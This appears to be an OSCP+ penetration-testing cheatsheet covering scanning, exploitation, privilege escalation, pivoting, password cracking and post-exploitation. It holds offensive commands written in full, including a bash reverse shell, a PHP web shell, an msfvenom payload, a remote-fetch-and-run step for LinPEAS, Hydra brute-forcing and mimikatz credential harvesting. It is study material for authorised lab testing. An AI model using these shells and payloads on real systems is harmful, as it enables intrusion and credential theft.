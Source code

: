 
# 🛡️ OSCP+ Cheatsheet

## 🔎 Enumeration

### 🔹 Nmap Scans
```bash
nmap -sC -sV -oA nmap/initial <IP>
nmap -p- --min-rate=1000 -T4 <IP>
```

### 🔹 SMB
```bash
smbclient -L //<IP> -N
smbmap -H <IP>
enum4linux-ng <IP>
```

### 🔹 HTTP/Web
```bash
whatweb http://<IP>
nikto -h http://<IP>
gobuster dir -u http://<IP> -w /usr/share/wordlists/dirb/common.txt -t 50
```

### 🔹 FTP
```bash
ftp <IP>
nmap --script ftp-anon <IP>
```

### 🔹 SNMP
```bash
snmpwalk -v2c -c public <IP>
onesixtyone -c community.txt <IP>
```

## ⚔️ Exploitation

### 🔹 Searchsploit
```bash
searchsploit <product/version>
searchsploit -x <path_to_exploit>
```

### 🔹 Compiling Exploits
```bash
gcc exploit.c -o exploit
i686-w64-mingw32-gcc exploit.c -o exploit.exe -lws2_32
```

### 🔹 Netcat Listener
```bash
nc -nlvp <port>
```

### 🔹 Reverse Shells

- **Bash**
  ```bash
  bash -i >& /dev/tcp/<IP>/<port> 0>&1
  ```

- **PHP**
  ```php
  <?php system($_GET['cmd']); ?>
  ```

- **Python**
  ```python
  python3 -c 'import pty; pty.spawn("/bin/bash")'
  ```

- **MSFVenom**
  ```bash
  msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell.exe
  ```

## 🏃 Privilege Escalation

### 🔹 Linux
```bash
uname -a
sudo -l
find / -perm -u=s -type f 2>/dev/null
```

- LinPEAS:
  ```bash
  wget <your_ip>/linpeas.sh
  chmod +x linpeas.sh
  ./linpeas.sh
  ```

- GTFOBins: https://gtfobins.github.io/

### 🔹 Windows
```powershell
whoami /priv
systeminfo
```

- WinPEAS:
  ```powershell
  .\winPEASx64.exe
  ```

- PowerUp:
  ```powershell
  Import-Module .\PowerUp.ps1
  Invoke-AllChecks
  ```

## 🔁 Pivoting

```bash
ssh -D 9050 user@target
proxychains nmap -sT -Pn -n <target>
```

- Chisel (reverse socks proxy):
  ```bash
  ./chisel server -p 8000 --reverse
  ./chisel client <your_ip>:8000 R:1080:socks
  ```

## 📡 Port Forwarding & Tunneling

- SSH Local Forwarding:
  ```bash
  ssh -L <local_port>:<target_ip>:<target_port> user@intermediate_host
  ```

- SSH Remote Forwarding:
  ```bash
  ssh -R <remote_port>:localhost:<local_port> user@attacker
  ```

## 🔐 Password Attacks

- Hydra:
  ```bash
  hydra -l admin -P /usr/share/wordlists/rockyou.txt <IP> http-get /
  ```

- John:
  ```bash
  john --wordlist=rockyou.txt hash.txt
  ```

- Hashcat:
  ```bash
  hashcat -m <mode> -a 0 hash.txt rockyou.txt
  ```

## 🧠 Post-Exploitation

- Linux Crontab:
  ```bash
  crontab -l
  cat /etc/crontab
  ```

- Credential Harvesting (Windows):
  ```powershell
  cmdkey /list
  mimikatz.exe
  ```

- File Transfer (Linux):
  ```bash
  python3 -m http.server 80
  wget http://<your_ip>/file
  ```

## 📁 Tools Reference

| Tool            | Usage                              |
|-----------------|------------------------------------|
| **Burp Suite**  | Intercept, fuzz, decode web traffic |
| **Impacket**    | Remote execution, SMB/WinRM/RPC tools |
| **Metasploit**  | Framework for rapid exploitation     |
| **Responder**   | LLMNR/NBNS poisoning                 |
| **CrackMapExec**| SMB/LDAP/WinRM interaction           |
| **BloodHound**  | AD enumeration (with SharpHound)     |

## 💡 Tips

- Always start with `nmap -p-` to ensure full port coverage.
- Use `tmux` or `screen` to avoid losing shells.
- Clean up after exploitation.
- Take thorough notes (e.g., CherryTree or Obsidian).
- Automate repetitive tasks with `bash` or `Python`.
